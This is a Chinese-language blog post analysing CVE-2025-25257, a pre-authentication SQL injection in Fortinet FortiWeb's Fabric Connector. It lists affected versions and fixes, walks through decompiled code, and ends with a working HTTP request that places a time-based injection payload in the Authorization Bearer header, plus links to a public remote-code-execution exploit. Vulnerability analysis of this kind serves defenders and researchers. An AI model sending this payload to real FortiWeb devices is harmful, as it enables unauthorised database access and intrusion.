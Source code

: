 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4ODg2MjQ5Mg==&mid=2247484142&idx=1&sn=b7b1520274e05a7c03c144e80761199c

#  Fortinet FortiWeb SQL注入 CVE-2025-25257  
jsjs  Resetlab   2025-07-14 12:50  
  
以下 FortiWeb  Version版本 affected:  
<table><thead><tr><th><section><span leaf="">Version</span></section></th><th><section><span leaf="">Affected</span></section></th><th><section><span leaf="">Solution</span></section></th></tr></thead><tbody><tr><td><section><span leaf="">FortiWeb 7.6</span></section></td><td><section><span leaf="">7.6.0 through 7.6.3</span></section></td><td><section><span leaf="">Upgrade to 7.6.4 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.4</span></section></td><td><section><span leaf="">7.4.0 through 7.4.7</span></section></td><td><section><span leaf="">Upgrade to 7.4.8 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.2</span></section></td><td><section><span leaf="">7.2.0 through 7.2.10</span></section></td><td><section><span leaf="">Upgrade to 7.2.11 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.0</span></section></td><td><section><span leaf="">7.0.0 through 7.0.10</span></section></td><td><section><span leaf="">Upgrade to 7.0.11 or above</span></section></td></tr></tbody></table>  
导致sql注入漏洞位置在下方  

```
__int64 __fastcall get_fabric_user_by_token(const char *a1)
{
  unsigned int v1; // ebx
  __int128 v3; // [rsp+0h] [rbp-4B0h] BYREF
  __int64 v4; // [rsp+10h] [rbp-4A0h]
  _BYTE v5[16]; // [rsp+20h] [rbp-490h] BYREF
  __int64 (__fastcall *v6)(_BYTE *); // [rsp+30h] [rbp-480h]
  __int64 (__fastcall *v7)(_BYTE *, char *); // [rsp+38h] [rbp-478h]
  void (__fastcall *v8)(_BYTE *); // [rsp+58h] [rbp-458h]
  __int64 (__fastcall *v9)(_BYTE *, __int128 *); // [rsp+60h] [rbp-450h]
  void (__fastcall *v10)(__int128 *); // [rsp+68h] [rbp-448h]
  char s[16]; // [rsp+80h] [rbp-430h] BYREF
  _BYTE v12[1008]; // [rsp+90h] [rbp-420h] BYREF
  unsigned __int64 v13; // [rsp+488h] [rbp-28h]

  v13 = __readfsqword(0x28u);
  *(_OWORD *)s = 0;
  memset(v12, 0, sizeof(v12));
  if ( a1 && *a1 )
  {
    init_ml_db_obj((__int64)v5);
    v1 = v6(v5);
    if ( !v1 )
    {

	    **// VULN
      snprintf(s, 0x400u, &#34;select id from fabric_user.user_table where token='%s'&#34;, a1);**


      v1 = v7(v5, s);
      if ( !v1 )
      {
        v4 = 0;
        v3 = 0;
        v1 = v9(v5, &v3);
        if ( !v1 )
        {
          if ( (_DWORD)v3 == 1 )
          {
            v10(&v3);
          }
          else
          {
            v10(&v3);
            v1 = -3;
          }
        }
      }
    }
    v8(v5);
  }
  else
  {
    return (unsigned int)-1;
  }
  return v1;
}

```

  
snprintf(s, 0x400u, "select id from fabric_user.user_table where token='%s'", a1);  
  
通过传入进来的a1  进行直接拼接导致sql注入，查询conf配置文件  

```
<Location &#34;/api/fabric/device/status&#34;>
    SetHandler fabric_device_status-handler
</Location>

<Location &#34;/api/fabric/authenticate&#34;>
    SetHandler fabric_authenticate-handler
</Location>

<Location ~ &#34;/api/v[0-9]/fabric/widget&#34;>
    SetHandler fabric_widget-handler
</Location>

```

  
在ida里交叉引用上面的函数  
  
发现sub_55ED2EED05F0 --> /api/fabric/device/status  
  
逆向下sub_55ED2EED05F0这个函数里  

```
__int64 __fastcall sub_55ED2EED05F0(__int64 a1)
{
  const char *v2; // rdi
  unsigned int v3; // r13d
  __int64 v5; // r12
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // r14
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  __int64 v13; // r14
  __int64 v14; // rax
  __int64 v15; // rax
  __int64 v16; // rax
  __int64 v17; // rdx
  __int64 v18; // rcx
  __int64 v19; // r14
  __int64 v20; // rax
  const char *v21; // rax
  size_t v22; // rax
  const char *v23; // rax

  v2 = *(const char **)(a1 + 296);
  if ( !v2 )
    return (unsigned int)-1;
  v3 = strcmp(v2, &#34;fabric_device_status-handler&#34;);
  if ( v3 )
  {
    return (unsigned int)-1;
  }
  else if ( (unsigned int)fabric_access_check(a1) )             // [1]
  {
    v5 = json_object_new_object(a1);
    v6 = json_object_new_string(nCfg_debug_zone + 4888LL);
    json_object_object_add(v5, &#34;serial&#34;, v6);
    v7 = json_object_new_string(&#34;fortiweb&#34;);
    json_object_object_add(v5, &#34;device_type&#34;, v7);
    v8 = json_object_new_string(&#34;FortiWeb-VM&#34;);
    json_object_object_add(v5, &#34;model&#34;, v8);
    v9 = json_object_new_object(v5);
    v10 = json_object_new_int(7);
    json_object_object_add(v9, &#34;major&#34;, v10);
    v11 = json_object_new_int(6);
    json_object_object_add(v9, &#34;minor&#34;, v11);
    v12 = json_object_new_int(3);
    json_object_object_add(v9, &#34;patch&#34;, v12);
    json_object_object_add(v5, &#34;version&#34;, v9);
    v13 = json_object_new_object(v5);
    v14 = json_object_new_int(1043);


```

  
在fabric_access_check(a1)  调用 fabric_access_check函数  

```
__int64 __fastcall fabric_access_check(__int64 a1)
{
  __int64 v1; // rdi
  __int64 v2; // rax
  _OWORD v4[8]; // [rsp+0h] [rbp-A0h] BYREF
  char v5; // [rsp+80h] [rbp-20h]
  unsigned __int64 v6; // [rsp+88h] [rbp-18h]

  v1 = *(_QWORD *)(a1 + 248);
  v6 = __readfsqword(0x28u);
  v5 = 0;
  memset(v4, 0, sizeof(v4));
  v3 = apr_table_get(v1, &#34;Authorization&#34;); // [1]
  if ( (unsigned int)__isoc23_sscanf(v2, &#34;Bearer %128s&#34;, v4) != 1 ) // [2]
    return 0;
  v5 = 0;
  if ( (unsigned int)fabric_user_db_init()
    || (unsigned int)refresh_fabric_user()
    || (unsigned int)get_fabric_user_by_token((const char *)v4) ) // [3]
  {
    return 0;
  }
  else
  {
    return 2 * (unsigned int)((unsigned int)update_fabric_user_expire_time_by_token((const char *)v4) == 0);
  }
}


```

  
通过apr_table_get函数提取http内容Authorization的值赋值给v3  
  
利用__isoc23_sscanf  解析Bearer 之后的内容并且进行输入 运行输入128个字节  
  
随后传入到get_fabric_user_by_token，也就是漏洞点，进行sql注入  

```
GET /api/fabric/device/status HTTP/1.1
Host: ip
Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'

```

  
因为空格截断，所以用/**/ 代替空格即可  
  
具体shell脚本可以参考以下链接：  
  
https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257/blob/main/watchTowr-vs-FortiWeb-CVE-2025-25257.py  
  
  
